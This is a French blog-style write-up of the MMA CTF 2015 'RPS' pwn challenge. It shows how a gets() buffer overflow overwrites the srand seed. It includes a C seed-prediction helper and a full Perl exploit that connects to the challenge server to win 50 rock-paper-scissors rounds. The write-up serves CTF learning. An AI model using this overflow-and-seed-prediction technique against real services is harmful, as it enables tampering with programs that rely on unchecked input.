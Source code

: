 ```yaml
---
title: MMA CTF 2015 - RPS (pwn 50)
date: 2015-09-08
tags: ctf,exploit
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge RPS, du CTF MMA 2015.




### **Analyse**

```
    $ file rps
    rps: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
    BuildID[sha1]=8811962c746e1d068a5fa5b4deb7cb043c30146f, not stripped
```

On a donc un ELF 64 bits.

On comprends assez vite que le but du jeu est de gagner 50 parties de 'Pierre-Feuille-Ciseaux'.

On lance le binaire avec ltrace pour voir un peu ce qu'il fait :

```
    [pid 2942] __libc_start_main(0x400806, 1, 0x7ffea3e43a48, 0x400af0 <unfinished ...>
    [pid 2942] fopen("/dev/urandom", "r")                                          = 0x2524010
    [pid 2942] fread(0x7ffea3e43940, 4, 1, 0x2524010)                              = 1
    [pid 2942] fclose(0x2524010)                                                   = 0
    [pid 2942] printf("What's your name: ")                                        = 18
    [pid 2942] fflush(0x7fa5ca0cf640What's your name: )                            = 0
    [pid 2942] gets(0x7ffea3e43910, 0x7fa5ca0d07a0, 0, 0x7fa5c9e0c1b01234)         = 0x7ffea3e43910
    [pid 2942] printf("Hi, %s\n", "1234"Hi, 1234)                                  = 9
    [pid 2942] puts("Let's janken"Let's janken)                                    = 13
    [pid 2942] fflush(0x7fa5ca0cf640)                                              = 0
    [pid 2942] srand(0xe6503873, 0x7fa5ca0d07a0, 0, 0x7fa5c9e0c1b0)                = 0
    [pid 2942] printf("Game %d/50\n", 1Game 1/50)                                  = 10
    [pid 2942] printf("Rock? Paper? Scissors? [RPS]")                              = 28
    [pid 2942] fflush(0x7fa5ca0cf640Rock? Paper? Scissors? [RPS])                  = 0
    [pid 2942] getchar(0, 0x7fa5ca0d07a0, 0, 0x7fa5c9e0c1)
```

Chose intéressante ici, une entrée est demandée avec la fonction gets(), qui ne s'occupe pas de vérifier la taille des données reçues.




### **Exploitation**

Voyons ce qu'il se passe lorsque l'on envoit une grande chaine de caractères :


```
    $ perl -e 'print "A"x500;' | ltrace -f ./rps
    ...
    [pid 2992] srand(0x41414141, 0x7f263277f7a0, 0, 0x7f26324bb1b0)
    ...

```

On arrive à écraser la valeur de la graine utilisée par la fonction srand(), ce qui permet de prédire très facilement les nombres générés par la fonction rand() par la suite.


Pour réaliser ceci, j'ai créer un petit programme (get_random) permettant de prédire le nième nombre généré par rand(), lorsque la graine est 0x41414141.


```C
    #include <stdio.h>
    #include <stdlib.h>


    int main(int argc, char **argv) {
      int i;
      int n;

      srand(0x41414141);

      for(i = 1; i <= atoi(argv[1]); i++)
        n = rand();

      printf("%d\n", n);

      return 0;
    }
```

Ensuite, on peut remarquer rapidement qu'un simple modulo sur le nombre aléatoire permet de déterminer quel "coup" choisir.


L'exploit complet :

```
    #!/usr/bin/perl

    use strict;
    use warnings;
    use IO::Socket::INET;

    my $sock = IO::Socket::INET->new(PeerAddr => 'milkyway.chal.mmactf.link',
                              PeerPort => 1641,
                              Proto => 'tcp') || die $@;

    print $sock "A"x100 . "\n";

    sleep(1);

    for(my $i = 1; $i <= 50; $i++) {
        my ($num) = `./get_random $i`;

        if(($num % 3) == 2) {
            print $sock "R\n";
        } elsif(($num % 3) == 0) {
            print $sock "P\n";
        } else {
            print $sock "S\n";
        }
    }

    print while(<$sock>);
```

Une fois les 50 parties gagnées, le flag nous est envoyé !
